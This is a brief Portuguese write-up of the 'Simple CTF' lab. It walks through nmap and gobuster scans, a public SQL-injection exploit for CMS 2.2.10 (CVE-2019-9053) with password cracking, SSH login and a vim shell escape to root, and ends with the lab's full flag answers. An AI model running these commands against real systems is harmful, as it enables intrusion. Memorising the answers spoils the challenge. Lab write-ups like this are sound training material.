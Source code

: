CTF SIMPLE-CTF

Ao gerar o IP dei o comando:
    
    nmap -A "ip"

que mostrou as duas primeiras flags.

<br>

Apos isso usando a ferramenta Gobuster mostrou que o ip tinha um /simple que era uma aplicacao web, ao entrar vimos a versao que foi feita("CMS 2.2.10") ao procurar exploits encotrase um sql injection assim descobrindo mais duas flags.


     gobuster dir -u http://10.10.250.145/ -w directory-list-2.3-medium.txt -t 100


Ao rodar o script em python na aplicacao web era possivel encontrar o user mitch e sua senha. Ao entrar no usuario mitch pelo ssh tinhamos acesso a mais uma flag em um arquivo .txt

    $ python2 46635.py -u http://10.10.250.145/simple/ --crack -w /usr/share/wordlists/rockyou.txt


Em seguida usamos o reverseshell conseguiamos ter acesso root e ler a pasta root e concluindo o desafio.

    vim -c ':!/bin/sh'


FLAGS

    Flag 1: 2
    Flag 2: ssh
    Flag 3: CVE-2019-9053
    Flag 4: sqli
    Flag 5: secret
    Flag 6: ssh
    Flag 7: G00d j0b, keep up!
    Flag 8: sunbath
    Flag 9: vim
    Flag 10: W3ll d0n3. You made it!


